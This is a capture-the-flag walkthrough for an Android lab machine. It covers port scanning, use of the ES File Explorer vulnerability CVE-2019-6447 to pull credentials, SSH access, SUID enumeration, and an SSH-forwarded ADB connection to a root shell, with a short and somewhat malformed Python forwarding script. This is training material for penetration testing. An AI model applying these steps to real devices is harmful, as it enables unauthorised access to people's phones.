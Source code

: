### Box Info
OS: Android\
IP: 10.10.10.247

## Part I 

### Skills learned:
Curl/Python
Andriod OS + tools

### Enum
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 2222 SimplSSH
+ 5555 Andriod Debug bridge
+ 42135 ES File explorer
+ 59777 Bukkit JSONAPI
+ 44233 fingerprint-strings

### Search
Yields CVE-2019-6447
+ https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
+ https://www.exploit-db.com/exploits/50070

### Step 1: file extraction
+ python3 poc.py ${cmd} ${IP} 
+ python3 poc.py ${cmd} ${IP} $dir/$.jpg
+ [+] Done. Saved as 'out.dat'.

Now that you have downloaded the file, open the URL in a browser.
+ ${IP}:59777/$dir/$.jpg
+ File gives UN && PW

### Step 2: SSH
+ ssh -p 2222 $UN@${IP} 
+ ${PW}

### Info gathering
+ :/whoami
u0_a76
+ :/uname -a 
Linux localhost 4.9.214-android-x86_64-g04f9324 #1 SMP PREEMPT Wed Mar 25 17:11:29 CST 2020 x86_64
+ :/find / -perm /6000 2>/dev/null
/system/xbin/procmem
/system/xbin/su
+ :/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768

### Find Flag
Have fun searching! 

## Part II

### Skills learned
ssh port forwarding
adb tool

### Install tools:
adroid-tools-adb

### Port forwarding script.py:
import socket\
import subprocess\
import pyautogui\
import time\
\
def connection_function(host, port):\
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\
    s.connect((host, port))\
    print(s.recv(1024))\
\
connection_function("${IP}", 2222)\
\
def adb_connection(host, port):\
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\
    s.connect((host, port))\
    print(s.recv(1024))\
\
    subprocess.call(['ssh -p 2222 -L 5555:localhost:5555 kristi@${IP}'], shell=True)\
    password = "[PASSWORD OF TARGET MACHINE OF SSH]"\
    print(s.recv(1024))\
\
adb_connection("${IP}", 2222)\

### Start port-forwarding server
+ adb start-server
+ adb connect localhost:5555
+ adb devices

### Initiate root shell:
+ adb -s localhost:5555 shell

### Find root Flag!
Happy searching!
